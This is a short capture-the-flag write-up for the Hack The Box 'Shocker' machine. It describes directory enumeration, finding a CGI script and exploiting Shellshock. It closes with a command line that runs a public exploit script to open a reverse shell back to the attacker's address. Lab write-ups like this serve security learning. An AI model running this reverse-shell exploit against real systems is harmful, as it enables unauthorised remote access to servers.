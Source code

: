 ### Write up for Shocker Machine on HTB
Enumerating shocker, the biggest giveaway was the machine name and an obvious emoji of a shocked bug 
as i had exploited severall shellshock vulnerability, immediately realized i was dealling with a shellshock variant which is the apache mod_cgi


which requires a cgi script to be present in the webserver directory for it to be exploitable, did several directory and file listing search using several tools FFUF, Dirb, Gobuster, Dirbuster Dirsearch, looking for a .cgi script so i could write a malicious environmental variable which would be ran by bash , all to know avail 


After a futher research a nudge from the forums  , i realised .cgi is not only the exploitable file for shellshock, did few more searches with tweaked extensions of .bash,.sh,.cgi

found user.sh in the cgi-bin directory , checked searchsploit to find a python script writen to exploit shellshock which gave me a shelly user access on the machine 

python2 34900.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.7 lport=32327 pages=/cgi-bin/user.sh

